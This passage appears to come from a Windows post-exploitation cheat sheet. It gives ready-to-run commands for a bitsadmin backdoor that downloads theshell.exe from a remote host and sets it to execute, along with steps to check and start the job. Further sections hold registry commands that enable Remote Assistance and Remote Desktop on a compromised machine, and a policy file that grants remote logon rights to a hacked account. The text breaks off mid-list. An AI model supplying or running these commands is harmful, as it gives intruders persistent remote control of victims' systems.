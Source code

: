 ### bitsadmin Download/Exec
Make the backdoor:
```
bitsadmin /create backdoor
bitsadmin /addfile backdoor http://192.168.20.10/theshell.exe C:\windows\temp\theshell.exe
bitsadmin /SETMINRETRYDELAY 88000
bitsadmin /SETNOTIFYCMDLINE backdoor C:\windows\temp\theshell.exe NULL
```

Check the backdoor is set up correctly:
```
bitsadmin /getnotifycmdline backdoor
bitsadmin /listfiles backdoor
```

Run the backdoor:
```
bitsadmin /RESUME backdoor
```

### Remote Assistance Enable
 * **Command with arguments**: `reg add “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fAllowToGetHelp /t REG_DWORD /d 1 /f`
 * **Description**: **Must be admin to run this.** Enable remote assistance through adding a registry entry on the local system.


### Remote Desktop Enable - Method 1
 * **Command with arguments**: `reg add “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fDenyTSConnections /t REG_DWORD /d 0 /f`
 * **Description**: **Must be admin to run this.** Enable remote desktop through adding a registry entry on the local system.


### Remote Desktop Enable - Method 2
Remote Desktop allows a remote user to receive a graphical "desktop" of the target (compromised) system. According to Val Smith's and Colin Ames' [BlackHat 2008 presentation (page 53)](http://www.blackhat.com/presentations/bh-usa-08/Smith_Ames/BH_US_08_Smith_Ames_Meta-Post_Exploitation.pdf), you can remotely enable remote desktop using the commands below.

 1. On the compromised system, create a file named `fix_ts_policy.ini` containing the contents below. Change the *"hacked_account"* value to the account you have compromised on the remote system.


    <pre>
     [Unicode]
         Unicode=yes
         [Version]
         signature="$CHICAGO$"
         Revision=1
         [Privilege Rights] [Privilege Rights]
         seremoteinteractivelogonright = hacked_account
         seinteractivelogonright = hacked_account
         sedenyinteractivelogonright =
         sedenyremoteinteractivelogonright =
         sedenynetworklogonright =
    </pre>

